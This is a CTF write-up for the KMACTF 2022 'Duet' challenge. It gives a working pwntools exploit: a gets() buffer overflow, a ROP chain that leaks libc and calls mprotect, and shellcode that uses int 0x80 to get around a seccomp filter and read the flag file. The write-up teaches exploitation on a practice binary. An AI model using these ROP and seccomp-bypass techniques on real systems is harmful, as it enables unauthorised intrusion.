# KMACTF 2022 - Duet

Original challenge link: http://ctf.actvn.edu.vn/challenges

You can also download the chall in my repo: [Duet.zip](Duet.zip)

There will be 2 files in zip:

- duet
- libc-2.33.so

Download and use `patchelf` to patch the file, and then we can get started!

# 1. Find bug

First, let's check the basic information of file:

```bash
$ file duet
duet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fc52ef32ccb7f445b7875c489fbe20a70ea1f3ac, for GNU/Linux 3.2.0, not stripped

$ checksec duet
[*] '/home/nguyenhuutri/CTF/KMACTF2022/Duet/duet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

So this is a 64-bit file without being stripped. Next, we will use ghidra to compile the file and get the flow of program. In main(), we can see that it first sets buffer of stdin, stdout and stderr to null, then it add seccomp and just allow us to use several syscall. We can check the allowed syscall with this tool `seccomp-tools` which you can find it [here](https://github.com/david942j/seccomp-tools):



So we are allowed to use 13 syscall but `read` and `write` are 2 important syscalls we will use. And while we solve the chall, 1 syscall will be used too.

Let's continue analyzing! The program will then jump to vuln() and in vuln(), we can see our input was taken via gets():



So of course, this is a **Buffer Overflow** with seccomp.

# 2. Idea

Usually, when we have seccomp setup in binary, we will try to make the program execute our shellcode because with shellcode, we can do want we want easily. So the idea is straight forward: Input shellcode and make the program execute our shellcode to print the flag.

Summary:
- Stage 1: Preparation
- Stage 2: Input shellcode

# 3. Exploit

### Stage 1: Preparation

Due to the binary has `NX enable`, which means the stack is not executable. We will need to find some way to create a rwx section and then input our shellcode to that address and we can execute the shellcode. The best way is to use mprotect() to change permission of a range of address. But because we don't know what is the address of stack, we don't want to leak stack address, either, and the binary is `No PIE`, which means the address is static for every run. We can take the rw address range of binary and change its permission to rwx, and then put our shellcode here.

To get the address of rw section of binary, we can use gdb to debug the program and type `vmmap` (gdb-gef) to get that address:



So we will get the address `0x00000000404000` and change its permission with mprotect(). Let's see the arguments of that function:



The first argument is the address we want to change permission, the second argument is the length of address we want to change and the last argument is permission number (as linux permission number). So we can leak the libc address first with this code:

```python
from pwn import *

libc = ELF('./libc-2.33.so', checksec=False)
exe = context.binary = ELF('./duet_patched', checksec=False)
context.log_level = 'debug'

p = process(exe.path)

pop_rdi = 0x000000000040168b        # ROPgadget --binary duet | grep ": pop rdi"
pop_rsi_r15 = 0x0000000000401689    # ROPgadget --binary duet | grep ": pop rsi"

payload = b'A'*24
payload += flat(
	pop_rdi, exe.got['puts'],
	exe.plt['puts'],
	exe.sym['vuln']
	)
p.sendlineafter(b'stuff:', payload)
p.recvline()

p.interactive()
```

Because after we leak the address, we will want to run back to main but due to seccomp, if we run from main(), we will get error `Bad syscall` because syscall seccomp is forbidden. Hence, we will want to jump back to vuln() function so I added `exe.sym['vuln']`. Execute the script and we can see the address leaked:



So we will get that address and find the libc base address with this code:

```python
puts_addr = u64(p.recvline()[:-1] + b'\x00\x00')
print(hex(puts_addr))
libc.address = puts_addr - libc.sym['puts']
print(hex(libc.address))
```

Now, with address libc in hand, we can call the function mprotect() to change the permission to rwx. We will need several gadget to modify rdi, rsi and rdx:

```bash
ROPgadget --binary libc-2.33.so | grep ": pop rdx"
...
0x00000000000c7f32 : pop rdx ; ret
...
```

So with the same offset of padding, we can change the permission of address `0x404000` with this code:

```python
pop_rdx = libc.address + 0x00000000000c7f32
payload = b'A'*24
payload += flat(
	pop_rdi, 0x00000000404000,    # Address to change
	pop_rsi_r15, 0x1000, 0,       # Length of address
	pop_rdx, 7,                   # Permission want to set, 7 is rwx
	libc.sym['mprotect'],
)
p.sendlineafter(b'stuff:', payload)
```

Execute script and attach with gdb, we can check if the address is changed its permission or not:



We can see that the address changed its permission successfully. Now we will want to put our shellcode into that address. The payload above will be updated as follows:

```python
pop_rdx = libc.address + 0x00000000000c7f32
payload = b'A'*24
payload += flat(
	pop_rdi, 0x00000000404000,
	pop_rsi_r15, 0x1000, 0,
	pop_rdx, 7,
	libc.sym['mprotect'],

	pop_rdi, 0x00000000404a00,
	exe.plt['gets'],
	
	0x00000000404a00    # After done gets() will jump to this address which contains our shellcode
)
p.sendlineafter(b'stuff:', payload)
```

Execute script and we will be asked for input again. It's time to build our shellcode. 

### Stage 2: Input shellcode

To execute syscall read, we will need to open the file first. Unfortunately, we are not allow to execute open syscall. However, here is a trick: as we known, we can execute a syscall with instruction `syscall` (for 64 bit) or `int 0x80` (for 32 bit). Because 64 bit is larger than 32 bit, we can execute `int 0x80` on 64 bit with all the arguments are similar to what we do on 32 bit. In other words, if we want to execute `int 0x80`, we need to set rax, rbx, rcx and rdx but it just take first 32 bit of registers, which are eax, ebx, ecx and edx.

So for the file name pointer, we will need it to be maximum 32 bit. And the ideal address is the address we've changed permission to rwx because it just takes 3 bytes. So let's move the path of flag to that address with this script:

```python
shellcode = asm('''
	mov rbp, 0x404500
	mov rdx, 8386599043768215599
	mov [rbp], rdx
	add rbp, 8
	mov rdx, 8371742425456455526
	mov [rbp], rdx
	add rbp, 8
	mov rdx, 29816
	mov [rbp], rdx
	sub rbp, 0x10
	''') 
```

We can attach gdb to check if our path is correct or not:



So the register rbp contains the correct path of flag. Now we will want to execute `int 0x80` to open the file. While we don't have syscall `open` allowed on 64 bit, but it just the problem if we use `syscall` (for 64 bit) because the rax value of `open` when we use `syscall` is 2 which is not allowed:



But if we execute syscall `open` with `int 0x80` (for 32 bit), the rax value will be 5:



And rax value of 5 is allowed because in seccomp (base on 64 bit), the value of rax is 5 is syscall `fstat` which is allowed in seccomp:



So we will set eax, ebx, ecx, edx and use `int 0x80` to open the file. Shellcode will be updated as:

```python
shellcode = asm('''
	mov rbp, 0x404500
	mov rdx, 8386599043768215599
	mov [rbp], rdx
	add rbp, 8
	mov rdx, 8371742425456455526
	mov [rbp], rdx
	add rbp, 8
	mov rdx, 29816
	mov [rbp], rdx
	sub rbp, 0x10

	mov rbx, rbp
	mov rcx, 0
	mov rdx, 0
	mov rax, 5
	int 0x80
```

You can test with a local file and change the path of file to the file on your local and try to open with `int 0x80` to see the fd to open. Let's assume that the file opened successfully, the fd will be return to rax. We just need to take that fd to read and write the flag to us. Shellcode will be updated as follows:

```python
shellcode = asm('''
	mov rbp, 0x404500
	mov rdx, 8386599043768215599
	mov [rbp], rdx
	add rbp, 8
	mov rdx, 8371742425456455526
	mov [rbp], rdx
	add rbp, 8
	mov rdx, 29816
	mov [rbp], rdx
	sub rbp, 0x10

	mov rbx, rbp
	mov rcx, 0
	mov rdx, 0
	mov rax, 5
	int 0x80

	mov rdi, rax
	mov rsi, 0x404500
	mov rdx, 0x100
	xor rax, rax
	syscall

	mov rax, 1
	mov rdi, 1
	syscall
	''')
p.sendline(shellcode)
```

And we just need to sendline for the gets() and our shellcode will be executed. 

Full script: [solve.py](solve.py)

# 4. Get flag



Flag is `KMA{Duet:_a_1337_fl4g_c4ptur3d_by_tw0_4rch1t3ctur3s}`